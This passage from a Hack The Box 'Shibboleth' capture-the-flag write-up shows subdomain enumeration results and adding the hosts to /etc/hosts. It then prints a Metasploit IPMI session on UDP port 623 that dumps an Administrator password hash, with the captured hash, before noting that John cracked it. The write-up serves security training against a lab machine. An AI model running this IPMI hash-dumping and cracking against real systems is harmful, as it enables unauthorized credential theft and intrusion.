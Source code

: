 ```bash
________________________________________________

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

Voila!! we have some subdomains active , let's add them to /etc/hosts

```bash
└─$ sudo nano /etc/hosts
#htb machines
10.129.99.116 shibboleth.htb zabbix.shibboleth.htb monitor.shibboleth.htb monitoring.shibboleth.htb
```
All the three subdomain had a login page
![image](https://user-images.githubusercontent.com/56447720/141722392-9fbebb36-f73a-4238-8b4b-a59ea0642bb0.png)

Hmmmmmm zabbix

> Zabbix is an open-source monitoring software tool for diverse IT components, including networks, servers, virtual machines and cloud services. Zabbix provides monitoring metrics, among others network utilization, CPU load and disk space consumption

# Get login details

So I tried with some Web Attacks to login but none of them worked, The **UDP port 623** will get us some hashes

### Learn

- The UDP port 623 is vulnerable : https://book.hacktricks.xyz/pentesting/623-udp-ipmi

### Login creds

- I've used the Metasplot way to get the hashes because it was easy

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.99.116
rhosts => 10.129.99.116
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_JOHN_FILE zabbixlogin
OUTPUT_JOHN_FILE => zabbixlogin
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > exploit

[+] 10.129.99.116:623 - IPMI - Hash found: Administrator:97c8d75502010000d824a6d87cc8260b6a7a8ddf0282eadc5ebab7e75f2c8f7ed1a6429124bdf9b3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:84568da58ac1bb73a12d71bb0ea9d08a470ebd31
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > cat zabbixlogin
[*] exec: cat zabbixlogin

10.129.99.116 Administrator:$rakp$97c8d75502010000d824a6d87cc8260b6a7a8ddf0282eadc5ebab7e75f2c8f7ed1a6429124bdf9b3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$84568da58ac1bb73a12d71bb0ea9d08a470ebd31

```
- John cracked the password

